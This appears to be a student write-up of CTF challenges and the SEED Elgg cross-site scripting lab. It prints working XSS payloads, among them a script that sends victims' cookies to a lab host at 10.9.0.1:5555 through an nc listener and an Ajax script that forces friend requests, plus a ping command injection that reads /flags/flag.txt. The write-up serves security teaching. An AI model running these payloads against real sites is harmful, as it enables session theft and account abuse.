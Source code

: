 # Trabalho realizado na semana #10 e #11


---

## CTF 


### Week 10 - Challenge 1

To solve the challenge, after we send a message, we go to a page where we can see two buttons, <kbd>Give the flag</kbd> and <kbd>Mark request as read</kbd>. So we look at the html code for the first button.

![](https://i.imgur.com/fOZf9Rt.png)

The goal is for the administrator to click on the <kbd>Give the flag</kbd> button, that is disabled. So we can fetch the element through getElementById() and click on it whenever someone enters the page through click(). So we added the following script to the message field:

![](https://i.imgur.com/fLpO3BZ.png)


flag: 

```
flag{403857a41c769eefb23575fddb088e50}
```

### Week 10 - Challenge 2

When we analyzed the pages, we found that there was a PING page, a tool that has a vulnerability. 

So, we can execute multiple commands and if separated by a **;** it executes the last one after finishing the others. So we can use the cat command to get the flag. In the statement, we are told that the flag is in the path /flags/flag.txt. So, with input <kbd> ; cat /flags/flag.txt </kbd> we get the flag.


![](https://i.imgur.com/RZQ50ZD.png)


flag:
```
flag{deca6448aca3b011b752a055b9ab0abf}
```

## Cross-Site Scripting Attack Lab (Elgg)

### Task 1

For this task we just needed to log in as any one of the users in the database (with the credentials given) and edit the user's brief description to have the following script:

```
<script>alert('XSS');</script>
```

This will trigger an alert message when any user enters that profile.

When logged in as Boby, if we entered Alice's profile we got the following result:

![](https://i.imgur.com/Qj4csUN.png)


### Task 2 

By changing the user's brief description to the following line, the user's cookies are displayed in the alert window.

```
<script>alert(document.cookie);</script>
```
Result:
![](https://i.imgur.com/dRkeTnh.png)



### Task 3


For this task, we edited Alice's brief description section to:
```
<script>
document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);
</script>

```

After this, we typed the <kbd>nc -lknv 5555</kbd> command to listen to the TCP port 5555 and get the cookies of other users. In this case, Alice's cookies.
We logged in with Samy's account and visited Alice's profile, obtaining the following result in the terminal:

![](https://i.imgur.com/kIsKz8s.png)

### Task 4

The goal is to when a user visits Samy's profile, that user automatically becomes their friend.

We sent a friend request from Alice to Boby and by observing HTTP Header Live, we understood how a add-friend HTTP request looks like.

The URL was:
```
http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1669809008&__elgg_token=hsN2GkfsXNgU1itbZV2qTQ&__elgg_ts=1669809008&__elgg_token=hsN2GkfsXNgU1itbZV2qTQ
```

Next, we replicated the above code and replaced the field,<kbd>friend=57</kbd>, with Samy's id, <kbd>friend=59</kbd>, for our exploit:

```
<script type="text/javascript">
    window.onload = function () {
        var Ajax = null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token; // <--- THIS LINE

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

With this script, any user that accesses Samy's profile, automatically becomes their friend. 

Example:
When we logged in with Alice's profile and accessed Samy's profile page, they automatically became friends.

![](https://i.imgur.com/ScOyhzn.png)